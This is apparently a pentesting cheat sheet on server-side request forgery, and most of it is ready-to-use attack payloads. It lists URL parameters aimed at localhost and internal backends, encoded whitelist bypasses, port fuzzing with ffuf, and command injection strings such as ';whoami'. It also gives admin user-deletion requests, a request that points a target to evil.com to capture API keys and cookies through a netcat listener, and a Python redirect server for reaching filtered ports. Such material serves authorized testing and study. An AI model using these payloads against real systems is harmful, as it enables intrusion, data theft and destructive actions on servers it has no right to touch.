 ```yaml
---
title: SSRF (Server-Side Request Forgery)
description: SSRF is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessibleto the attacker. SSRF is an attack against a server.
tags:
    - Web
refs:
date: 2023-03-12
draft: false
---
```


## Capture Tools

If you want to capture the SSRF affections, there are some online tools available for capturing SSRF.

- **[Webhook.site](https://webhook.site/)**
- **[pingb.in](http://pingb.in/)**

Or we can simply open local web server.

```bash
python3 -m http.server 8000
```

<br />

## Basic

We may be able to use another server in the target machine.  
For example, pass the localhost URL to the GET parameters.  
Also These are available in POST params.

```sh
# Localhost
?url=http://localhost/
?url=http://127.0.0.1/
?url=http://127.0.0.1:80/
?url=http://127.0.0.1:3000/
?url=http://127.0.0.1:8000/
?url=http://127.0.0.1:8080/
?url=http://2130706433/
?url=http://017700000001/
?url=http://127.1/

# Backend URL (e.g. 192.168.0.x)
?url=http://192.168.0.23/
?url=http://192.168.0.23:80/
?url=http://192.168.0.23:3000/
?url=http://192.168.0.23:8000/
?url=http://192.168.0.23:8080/

# At sign
?url=test@sub.example.com/index.php
```

### Local Port Enumeration

We can find which port is opening by fuzzing port number.

```bash
seq 1 65535 | ffuf -u https://example.com/?url=http://127.0.0.1:FUZZ -w -
```

<br />

## Listen HTTP Request

If the website is vulnerable to SSRF, we can fetch sensitive information in HTTP request by sniffing.  
First off, start a listener in local machine.

```bash
sudo nc -lvp 80
```

Then send request that is affected by SSRF.

```bash
https://example.com/mail?server=http://evil.com
```

See the HTTP request in local machine.  
We might be able to fetch the sensitive data such as API key, Cookie, etc.

<br />

## OS Command Injection

```bash
?url=http://127.0.0.1:3000/test;whoami
?url=http://127.0.0.1:3000/test;ping+-c+1+10.0.0.1
```

<br />

## Admin Operations

We may be able to operate significant stuff as the admin user via local server.

```sh
# Localhost
?url=http://localhost/admin
?url=http://localhost/admin/delete?username=john
?url=http://127.1/%25%36%31dmin

# Backend URL (e.g. 192.168.0.x)
?url=http://192.168.0.23/admin
?url=http://192.168.0.23/admin/delete?username=john
```

<br />

## Whitelisted URL Bypass

If the target website allows only the whitelisted URL, we can use them.  
Assume only "example.com" is allowed by the target website.

```sh
?url=http://localhost@example.com/
?url=http://localhost%25%32%33@example.com/
```

<br />

## Open Redirect

```sh
key=/post/next?path=http://localhost/admin
```

<br />

## Hostname Bypass

### 1. Add Target Domain to /etc/hosts in Local Machine

```sh
x.x.x.x sub.example.com
```

Restart the hostname service to apply the configuration imediately.

```sh
sudo systemctl restart systemd-hostnamed
```

### 2. Access to the Domain We Specified**

```txt
https://example.com/?proxy=https://sub.example.com
```

<br />

## API Request

We might be able to get information from an API endpoint that is not accessible normally.

```bash
?url=https://api.example.com/users
?url=https://api.example.com@internal-api.example.com/users
```

<br />

## Reveal Filtered Websites via Monitoring Tools (Webhook)

Some web apps may have monitoring tools that check the health of external websites.  
You may be able to reveal hidden contents of the target via the monitor.  
First off, create a redirect server using Python. Here it’s named “redirect.py”.

```py
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 8000), Redirect).serve_forever()
```

After creating, run the following command.  
Assume that the filtered port is 3000 (nmap will reveal it).

```sh
python3 redirect.py http://127.0.0.1:3000
```

And start listener for receiving the POST request of the webhook from the target website.

```sh
nc -lvnp 4444
```

Now set the configuration of the webhook. For example:

```txt
Payload URL: http://<local-ip>:4444/
Monitored URL: http://<local-ip>:8000/
```

You can see the contents of the filtered app.

